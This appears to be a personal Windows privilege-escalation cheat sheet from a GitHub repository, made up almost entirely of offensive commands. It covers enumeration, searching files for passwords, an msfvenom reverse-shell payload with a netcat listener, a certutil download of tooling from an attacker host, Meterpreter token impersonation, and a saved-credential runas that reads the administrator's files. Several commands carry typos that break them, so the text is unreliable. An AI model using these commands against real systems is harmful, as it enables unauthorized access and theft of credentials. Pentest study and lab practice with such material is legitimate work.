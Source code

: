 # Windows Privilege Escalation
## //cheat-sheet

**[Back to Command-Center](https://github.com/codetorok/command-center/blob/master/README.md)**


### Initial Enumeration
#### System Enumeration

* `systeminfo` basic system enumeration
* `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"` specific
* `hostname` get hostname
**Windows Managment Instrumentation Command Line** `wmic`
* `wmic qfe` **quick fix engeneering** shows what's available, what's been patched and when
* `wmic qfe Caption,Description,HotFixID,InstalledOn` looking for specific information
* `wmic logicaldisk` output is a little dirty
* `wmic logicaldisk get caption, description, providername` much cleaner
* `wmic logicaldisk get caption` fast and simple, less details

#### User Enumeration
* `whoami` or `whoami /priv` enumerate ourselves
* `whoami /groups` enumerate our group(s)
* `net user` enumerate users
* `net user administrator` enumeraing a specific user
* `net localgroup` enumerating a group or calling out by name ~net localgroup administrator`

#### Network Enumeration
* `ipconfig` or to get more details `ipconfig /all`
* `arp -a` arp table
* `route print` this will tell us where the machine is communicating
* `netstat -ano` to see what ports are out there, what are these listening ports, what are those port, where are those ports coming from? maybe those services are only available for us from the inside network?

#### Password hunting
* `findstr /si password *.txt` search for password in a text file
* `findstr /si password *.txt *.ini *.config` same as above but searching among multiple file extensions

#### AV / Firewall Enumeration
* `sc query windefend` information about Windows Defender **sc is for service control**
* `sc queryex type= service` listing all the services running on the machine
* `netsh advfirewall firewall dump` older command for info about the firewall
* `netsh firewall show state` more actual command for inf about the firewall
* `netsh firewall show config` to see the firewall's configuration
* `netsh sdvfirewall firewall dump` another variaton for all info on the firewall

### Exploiting via Kernel Exploit

#### Automated Tools
* winPEAS.exe (compile)
* seatbelt.exe (compile)
* Watson.exe (compile)
* Sharup.exe (compile)

#### Powershell
* Sherlock.ps1
* PowerUps.ps1
* jaws-enum.ps1

#### Other:
* windows-exploit-suggester.py (local)
* exploit suggester Metasploit

#### Exploring Autommated Tools
##### windows-exploit-suggerster.py : Steps to follow with windows-exploit-suggester.py
* 1. install: if regular pip install from repo causes problem, here's a one liner (windows-exploit-suggester.py): `curl https://bootsrtap.pypa.io//get-pyp.py -o get pip.py: python get-pip.py`
* 2. create database: `./windows-exploit-suggester.py --update`
* 3. run `systeminfo` on the target Windows machine and save it into a systeminfo.txt file.
* 4. finally: `./windows-exploit-suggester.py --database 2020-04-17-mssb.xls --systeminfo systeminfo.txt` systeminfo.txt is your previously saved file.

##### Metasploit
* in metasploit use `run post/multi//recon/local_exploit_suggester`

##### Metasploit and winPEAS
* on target machine from metasploit meterpreter shell:
* `cd /tmp`
* `upload /file_location_directory_on_attacker_machine/winPEAS.exe
* `shell`
* `./winPEAS.exe`

##### PowerUp
* when in a meterpreter shell you can use: `load powershell`, before running PowerUp.ps1 need to bypass the execution policy for PowerShell: `powershell -ep bypass`

##### manual exploit using msfvenom
* `msfvenom -p windows/shell_reverse_tcp lhost=<attacker machine's IP> lport=<listening port> -f aspx > manual.aspx`
* don't forget to listen on `nc -lnvp <port>`

### Escalation path: password and port forwarding

* **winexe** is a script allowing us to use Linux commands on windows, use it from shell
* `winexe -U Administrator%<password> //127.0.0.1 "cmd.exe"

* on kali machine `apt install ssh`
* quick mod on ssh itself: `nano /etc/ssh/sshd_config` **#PermitRootLogin** uncomment it and change it's permission to **yes**

#### Using plink.exe

* **Bring file over to target machine in Windows:** `certutil --urlcache -f http://<`attack machine's IP>/plink.exe
* find a folder with wright priv. /tmp is good
* use plink for port forwarding 

#### Windows subsystem for Linux

* where /R c:\windows bash.exe

### Impersonation and Potato Attack

#### In Metasploit meterpreter shell

* `getuid`
* `load_incognito`
* `list_tokens -u`
* `impersonate token <domain controller's name>\\<username>`  
* `shell`

#### Checking results

* in Windows: `whoami /priv`
* in metasploit `getprivs`

* alternatively we can use metasploit exploit suggester as well: `run post/multi/recon/exploit_suggester` 

### Escalation path: runas

* `cmdkey /list`
* `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe \c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt`




